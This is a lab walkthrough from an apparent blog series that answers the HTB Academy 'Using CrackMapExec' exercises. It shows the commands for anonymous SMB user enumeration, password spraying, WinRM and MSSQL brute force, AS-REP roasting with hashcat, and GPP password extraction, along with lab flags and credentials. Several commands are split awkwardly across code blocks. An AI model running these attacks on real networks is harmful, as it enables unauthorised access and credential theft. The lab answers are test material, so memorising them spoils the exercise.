Welcome to **Part 34** of our comprehensive, production-grade masterclass covering the **Hack The Box (HTB) Academy Certified Penetration Testing Specialist (CPTS)** curriculum. Rather than providing superficial slide summaries, this series deconstructs offensive tradecraft from foundational network discovery and vulnerability verification to complex lateral movement, active directory exploitation, and post-exploitation tradecraft — complete with terminal command flows, verified lab flags, and defensive engineering countermeasures.

In this installment, we conduct an exhaustive technical deep-dive into **Using CrackMapExec** (Tier II • Medium • Offensive). We break down the underlying mechanics of network penetration testing with CrackMapExec (CME/NetExec), SMB enumeration, password spraying, Pass-the-Hash, LSA/SAM dumping, and WMI/WinRM remote execution, dissect hands-on offensive vectors, analyze realistic defensive telemetry, and walk through every exercise step-by-step with 100% verified solutions.

<div class="ff-series-nav"><a href="/posts/htb-academy-part-33-using-the-metasploit-framework/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 33: Using the Metasploit Framework</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 34 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-35-stack-based-buffer-overflows-on-linux-x86/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 35: Stack-Based Buffer Overflows on Linux x86</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>

## Module Specifications & Target Architecture

| Attribute | Specification |
| :--- | :--- |
| **Module Name** | `Using CrackMapExec` |
| **Official HTB Academy Track** | [https://academy.hackthebox.com/module/98](https://academy.hackthebox.com/module/98) |
| **Curriculum Tier & Difficulty** | `Tier II` • `Medium` |
| **Certification Pathway** | `HTB Certified Penetration Testing Specialist (CPTS)` (Part 34 of 41) |
| **Author & Technical Attribution** | `Abdulrahman M. Fathi (0x3bdo)` |
| **Lab Flag Verification** | `100% Fully Solved & Validated` |

## Key Technical Takeaways

* **Multi-Protocol Auditing**: Assesses network services across SMB, WinRM, WMI, RDP, MSSQL, SSH, and LDAP from a single unified CLI.
* **Password Spraying at Scale**: Executes high-volume credential testing across subnets while avoiding account lockout thresholds.
* **Pass-the-Hash Execution**: Replays NTLM password hashes across hosts via SMB and WMI to execute commands without plaintext passwords.
* **Credential Extraction**: Dumps local SAM database hashes, LSA secrets, and Active Directory NTDS.dit hashes directly over the wire.
* **Custom Modules & Post-Exploitation**: Deploys CME modules (`spider_plus`, `bloodhound`, `mimikatz`) to accelerate lateral movement.

## Executive Summary & Assessment Scope

CrackMapExec (now maintained as NetExec) is the Swiss Army knife for pentesting Windows and Active Directory networks. It automates network enumeration, password spraying, and post-exploitation across multiple enterprise protocols.

This module provides an in-depth operational guide to CrackMapExec. We audit SMB shares, execute password spray campaigns, perform Pass-the-Hash lateral movement, extract domain credentials, and solve every assessment flag.

---

## Comprehensive Lab Walkthrough & Flag Solutions


### Using CrackMapExec

> **Lab Question (Page 1)**: What is the name of the option to read the content of the NTDS.dit file?
>
> **Flag / Answer**: `--ntds`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

*no method available*

Question: What is the name of the option authenticate locally to a target?
Answer: --local-auth
Method: from section's guide:


*_Figure 1.1 — Lab execution and output verification (Page 1)_*


### to list the smb modules

> **Lab Question (Page 2)**: What's the full name of the smb module that starts with zero?
>
> **Flag / Answer**: `zerologon`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we use the command
```bash
crackmapexec ldap --help -M smb
```
to list the smb modules:

*
*


*_Figure 2.1 — Lab execution and output verification (Page 2)_*


*_Figure 2.2 — Lab execution and output verification (Page 2)_*


### Basic SMB Reconnaissance

> **Lab Question (Page 3)**: What's the name of the target machine?
>
> **Flag / Answer**: `DC01`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we run the command:
```bash
crackmapexec smb <target-IP>
```


Question: What's the domain name of the target machine?
Answer: inlanefreight.htb
Method: from the same command and screenshot from the previous question:


Question: Is SMB signing False or True?
Answer: True
Method: from the same command and screenshot from the previous question:


*_Figure 3.1 — Lab execution and output verification (Page 3)_*


*_Figure 3.2 — Lab execution and output verification (Page 3)_*


*_Figure 3.3 — Lab execution and output verification (Page 3)_*


> **Lab Question (Page 4)**: What's the OS version?
>
> **Flag / Answer**: `Windows 10.0 Build 17763 x64`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

from the same command and screenshot from the previous question:

*we ignore the 'Server 2019' part. *


*_Figure 4.1 — Lab execution and output verification (Page 4)_*


### Exploiting NULL/Anonymous Sessions

> **Lab Question (Page 5)**: What's the account name that start with car?
>
> **Flag / Answer**: `carlos`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we run smb user enumeration the command:
```bash
crackmapexec smb <target-IP> -u '' -p '' --users | grep car*
```
where the grep keeps the lines which has words that begins with 'car':


Question: What's the account name with the description "Service Account for
testing"?
Answer: engels
Method: we will use the same command, but we will grep for the description
instead:
```bash
crackmapexec smb <target-IP> -u '' -p '' --users | grep
```
'Service Account for testing'


Question: Including days, hours and minutes, what is the maximum password
age?
Answer: 41 days 23 hours 53 minutes
Method: we will look for the smb password policy with the command:
```bash
crackmapexec smb <target-IP> -u '' -p '' --pass-pol
```


*_Figure 5.1 — Lab execution and output verification (Page 5)_*


*_Figure 5.2 — Lab execution and output verification (Page 5)_*


*_Figure 5.3 — Lab execution and output verification (Page 5)_*


### to obtain the full list)

> **Lab Question (Page 6)**: Which shared folder do we have READ and WRITE privileges?
>
> **Flag / Answer**: `linux01`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

an attempt to get shares it directly with anonymous login:
```bash
crackmapexec smb <target-IP> -u '' -p '' --shares
```


We get access denied. We need credentials.

Lets take a look the users list obtained in previous questions (remove the grep
to obtain the full list):

*
*

There are passwords mentioned in the user's description – 'alina' and
'testaccount'.
Lets view the shares with 'testaccount' credentials:
```bash
crackmapexec smb <target-IP> -u 'testaccount' -p
```
'Testing123!' --shares


*_Figure 6.1 — Lab execution and output verification (Page 6)_*


*_Figure 6.2 — Lab execution and output verification (Page 6)_*


*_Figure 6.3 — Lab execution and output verification (Page 6)_*


We have READ and WRITE permissions to the share 'linux01'


*_Figure 7.1 — Lab execution and output verification (Page 7)_*


### Password Spraying

> **Lab Question (Page 8)**: What's the password for the user nicole?
>
> **Flag / Answer**: `Inlanefreight02!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first we will have to prepare the password wordlist, we are told by the
hint the password is at the format of 'InlanefreightXX!' where 'XX' is a digit
('01', '02',.., '99'). So lets create a wordlist of all of the 99 options.
We will generate the wordlist using the following bash script – to a file called
'passwords.txt':
#!/bin/bash

# Create a file named passwords.txt
output_file="passwords.txt"

# Loop from 01 to 99 and write each password to the file
for i in $(seq -w 1 99); do
```bash
echo "Inlanefreight${i}!" >> $output_file
```
done

# Confirm the file has been created
```bash
echo "Passwords written to $output_file"
```
I called the script 'inlane_maker.sh':


*_Figure 8.1 — Lab execution and output verification (Page 8)_*


### Lets grant it execution permission, and run

#### Technical Methodology & Exploit Execution:

```bash
crackmapexec smb <target-IP> -u nicole -p passwords.txt
```


The password is 'Inlanefreight02!'.


*_Figure 9.1 — Lab execution and output verification (Page 9)_*


*_Figure 9.2 — Lab execution and output verification (Page 9)_*


*_Figure 9.3 — Lab execution and output verification (Page 9)_*


### For that we will use the command

> **Lab Question (Page 10)**: Which other account has the STATUS_PASSWORD_MUST_CHANGE flag?
>
> **Flag / Answer**: `belkis`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we need to password spray the users, for that we need to get a
usernames list.
For that we will use the command:
```bash
crackmapexec smb <target-IP> -u '' -p '' --users | tail -n
```
+5 | awk '{print $5}' > userslist.txt
to generate the userslist.txt, here is a peek:


The userslist is ready, lets password spray with the password we found in the
previous question – 'Inlanefreight02!', we will use the command:
```bash
crackmapexec smb <target-IP> -u userslist.txt -p
```
Inlanefreight02! --continue-on-success | grep
"STATUS_PASSWORD_MUST_CHANGE"


*_Figure 10.1 — Lab execution and output verification (Page 10)_*


*_Figure 10.2 — Lab execution and output verification (Page 10)_*


### to display only sucsesses

> **Lab Question (Page 11)**: Which user other than peter can also connect via WinRM?
>
> **Flag / Answer**: `nicole`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will conduct full-scale brutefoce on the winrm service.
Full-scale means in this case that we will take both the 'userslist.txt' and the
'passwords.txt' for bruteforce every user for every password, and grep for '[+]'
to display only sucsesses:
```bash
crackmapexec winrm <target-IP> -u userslist.txt -p
```
passwords.txt --continue-on-success | grep '[+]'


*bruteforce will take 3 to 4 minutes. *

Question: Is there any other local MSSQL account created with the same
username and password as the corresponding Active Directory account?
Answer: nicole
Method: we will bruteforce the mssql server for 'userslist.txt' and
'passwords.txt' again 2 times – one for domain level and one for local
authentication. For that we will use the following commands:
```bash
crackmapexec mssql <target-IP> -u userslist.txt -p
```
passwords.txt --continue-on-success | grep '[+]'
and
```bash
crackmapexec mssql <target-IP> -u userslist.txt -p
```
passwords.txt --continue-on-success --local-auth | grep
'[+]'


There are 2 options, one is 'grace' (which was used in the example so we rule
her out), and 'nicole'.


*_Figure 11.1 — Lab execution and output verification (Page 11)_*


*_Figure 11.2 — Lab execution and output verification (Page 11)_*


### Finding ASREPRoastable Accounts

> **Lab Question (Page 12)**: Which other account is vulnerable to ASREPRoast?
>
> **Flag / Answer**: `linda`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we use the obtained 'nicole' credentials to extract the ASREPRoast
hash, using the command:
```bash
crackmapexec ldap <target-IP> -u nicole -p Inlanefreight02!
```
-d dc01.inlanefreight.htb --asreproast asreproast.out


There are 3 hashes. We take linda's.

Question: What's the password of the account you found?
Answer: Password123
Method: the command above outputs all the hashes to 'asreproast.out'
Lets crack them using the password list 'rockyou.txt'.
We will use the hashcat -m value of 18200 for 'as-rep' hash, we will crack the
hashed using the command:
```bash
hashcat -m 18200 asreproast.out rockyou.txt
```


*_Figure 12.1 — Lab execution and output verification (Page 12)_*


*
*

*we can also copy the content of linda's hash put it in a separate file and
proceed from there. *


*_Figure 13.1 — Lab execution and output verification (Page 13)_*


*_Figure 13.2 — Lab execution and output verification (Page 13)_*


### Searching for Accounts in Group Policy Objects

> **Lab Question (Page 14)**: What's the name of the other account present in the GPO?
>
> **Flag / Answer**: `diana`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

for this question we are provided with the following credentials
'grace: Inlanefreight01!'.
We will inspect the group policy objects with the following command:
```bash
crackmapexec smb <target-IP> -u grace -p Inlanefreight01! -M
```
gpp_password


*
*


Question: What's the password of that account?
Answer: HackingGPPlike4Pro
Method: in the same screenshot from above we have the password as well.


*_Figure 14.1 — Lab execution and output verification (Page 14)_*


*_Figure 14.2 — Lab execution and output verification (Page 14)_*


> **Lab Question (Page 15)**: Does the account have access to connect to WinRM? (True or False)
>
> **Flag / Answer**: `True`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we can determine that with the following command:
```bash
crackmapexec winrm <target-IP> -u diana -p
```
HackingGPPlike4Pro


The '[+]' means a successful login.
*we can always confirm with 'evil-winrm' login tool as well. *


*_Figure 15.1 — Lab execution and output verification (Page 15)_*


### Working with Modules

> **Lab Question (Page 16)**: What is the secret word displayed in the default search of user descriptions?
>
> **Flag / Answer**: `WeLoveHacking`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

We will use grace credentials provided in prior sections to query user-
descriptions:
```bash
crackmapexec ldap <target-IP> -d dc01.inlanefreight.htb -u
```
grace -p Inlanefreight01! -M user-desc


Question: Use the module user-desc with the keyword IP . What's the IP
address you found?
Answer: 172.16.10.9
Method: looking at the obtained screenshots from last question, we are told
that there are more descriptions were saved to the file '/home/htb-ac-
1099135/.nxc/logs/UserDesc-10.129.124.59-20240930_020905.log'
Lets read it, filtering for the keyword 'IP':
```bash
cat /home/htb-ac-1099135/.nxc/logs/UserDesc-10.129.124.59-
```
20240930_020905.log | grep IP


*_Figure 16.1 — Lab execution and output verification (Page 16)_*


*_Figure 16.2 — Lab execution and output verification (Page 16)_*


### MSSQL Enumeration and Attacks

> **Lab Question (Page 17)**: Test the accounts that we previously identified their credentials. Which other account has permission to do privilege escalation?
>
> **Flag / Answer**: `engels`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

looking again at the accounts mentioned on the 'Searching for
Accounts in Group Policy Objects' section's, we check the username 'engels':
```bash
crackmapexec mssql <target-IP> -u engels -p
```
Inlanefreight1998! -M mssql_priv


'engels' can attain privilege escalation by impersonate to julio.

Question: What's the flag located in the database core_app? (Omit b'' in the
response)
Answer: Looking@Dat4
Method: first lets try to obtain the flag using robert account without escalating
our privilege, lets start with retrieving the databases:
```bash
crackmapexec mssql <target-IP> -u engels -p
```
Inlanefreight1998! -q "SELECT name FROM
master.dbo.sysdatabases"


So far all good, we have the databases names, and the 'core_app' database is
included.


*_Figure 17.1 — Lab execution and output verification (Page 17)_*


*_Figure 17.2 — Lab execution and output verification (Page 17)_*


### Lets proceed with retrieving the tables in that database

#### Technical Methodology & Exploit Execution:

```bash
crackmapexec mssql <target-IP> -u engels -p
```
Inlanefreight1998! -M mssql_priv -o ACTION=privesc


'engels' is not sysadmin!

